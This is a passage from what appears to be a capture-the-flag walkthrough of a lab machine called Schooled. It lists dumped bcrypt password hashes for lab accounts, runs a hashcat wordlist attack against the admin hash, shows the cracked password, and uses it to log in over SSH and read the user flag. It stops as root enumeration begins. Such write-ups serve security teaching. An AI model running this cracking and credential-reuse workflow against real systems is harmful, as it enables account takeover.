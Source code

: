     mac_amy89:$2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
    james_boris89:$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
    pierce_allan:$2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
    henry_william89:$2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
    harper_zoe89:$2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
    wright_travis89:$2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
    allen_matthew89:$2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
    sanders_wallis89:$2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
    higgins_jane:$2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
    phillips_manuel:$2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
    carter_lianne:$2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
    parker_dan89:$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
    parker_tim89:$2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
    0xdf:$2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza
    

### Crack Hashes

Hashcat example hashes show these are bcrypt. Because cracking bcrypt hashes
is so slow, and because each word has to be tested for each unique salt, I’m
going to just test the admin account that has an email address of
jamie@staff.schooled.htb. The [Hashcat example
hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page shows these
are mode 3200, so I’ll run `hashcat -m 3200 --user hash
/usr/share/wordlists/rockyou.txt`. It cracks in a bout 15 minutes on a really
low-powered VM:

    
    
    $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
    

### SSH

The creds work to SSH in as jamie:

    
    
    oxdf@parrot$ sshpass -p '!QAZ2wsx' ssh jamie@10.10.10.234
    ...[snip]...
    jamie@Schooled:~ $
    

And gives access to `user.txt`:

    
    
    jamie@Schooled:~ $ cat user.txt
    997d334f************************
    

## Shell as root

### Enumeration

`sudo -l` shows that jamie can run two commands as root:

    